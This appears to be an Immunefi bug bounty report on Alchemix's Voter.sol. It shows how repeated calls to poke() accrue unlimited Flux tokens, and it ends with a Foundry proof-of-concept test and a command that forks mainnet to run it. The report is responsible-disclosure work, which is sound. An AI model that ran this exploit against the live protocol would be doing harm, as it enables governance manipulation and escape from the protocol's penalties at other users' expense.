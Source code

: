 # 31388 - \[SC - Critical] Vulnerability in the poke function of Voting co...

Submitted on May 17th 2024 at 22:57:04 UTC by @b0g0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31388

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
* User can indefinitely accrue and mint FluxTokens

## Description

## Brief/Intro

The `poke()` function of `Voter.sol` introduces a vulnerability, allowing a token holder to increase his Flux balance as much as he likes. Unrestricted supply of Flux gives unfair advantage to voter and allows him to influence the votes and escape penalty when withdrawing

## Vulnerability Details

`Voter.sol` has 3 main function to manage votes:

* `vote()` - used to vote for pools (called `ONCE` per epoch)
* `poke()`- updates the voting status of an existing vote (can be called `MANY` time per epoch)
* `reset()`- resets the vote ( called `ONCE` per epoch)

Both `vote()` and `poke()` call the internal `_vote()` function, which resets the previous vote, creates a new vote based on the current voting power and accrues new Flux based on it:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412

```solidity
 function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
         // 1. Reset previous vote
        _reset(_tokenId);

        ....

        // 2. Accrue flux
        IFluxToken(FLUX).accrueFlux(_tokenId);

         // 3. calculate weights and create vote
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
         ....
    }
```

The important part to focus on here is that `Flux is accrued` `every` time `_vote()` is invoked. The amount accrued is based on the token voting power. `FluxToken::accrueFlux()` looks like this:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188

```solidity
function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```

The other important thing to note about FLUX is that it should accrue once `EACH EPOCH`

The docs explicitly state that :

> `The FLUX token is a special reward token that accrues to veALCX positions each epoch...`

Link -> https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/CONTRACTS.md#fluxtokensol

**And this is where the bug lies** - `Voter::poke()` can be called an unlimited amount of times each epoch. As a result `_vote()` will also be called, meaning Flux balances will get accrued on every call, practically enabling the token owner to source as much Flux as he wants.

## Impact Details

Having an unlimited supply of Flux gives the NFT owner the power to:

* boost all his votes, all the time, influencing the outcome of the votes for the pools - the bigger the value locked in an NFT, the more Flux it can steal and the greater influence it can have on the votes
* unlock his position at any time - effectively evading penalty and withdrawing much sooner than intended. This defeats the whole purpose of escrowing and causes harm to the protocol

## References

The `poke()` function:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

## Proof of Concept

I've added a POC inside the currently existing `Voting.t.sol` test file: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol

You can run the POC like this: `forge test --mt testPokeExploit --fork-url https://eth.llamarpc.com --fork-block-number 17133822 -vvvv`

```solidity
function testPokeExploit() public {
        // Lock ALCX token for max period to get max voting power
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

        // No unclaimed flux token
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 0);

        // Impersonate token owner and call poke()
        hevm.startPrank(admin);
        voter.poke(tokenId);

        // Flux has been accrued
        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 997259164121562177);

        // call poke()and  accrue unclaimed Flux again
        voter.poke(tokenId);

        // Flux has increased x2
        uint256 unclaimedBalance_x2 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x2, unclaimedBalance * 2);

        // Flux has increased x3
        voter.poke(tokenId);
        uint256 unclaimedBalance_x3 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x3, unclaimedBalance * 3);

        // Flux has increased x4
        voter.poke(tokenId);
        uint256 unclaimedBalance_x4 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x4, unclaimedBalance * 4);
    }
```
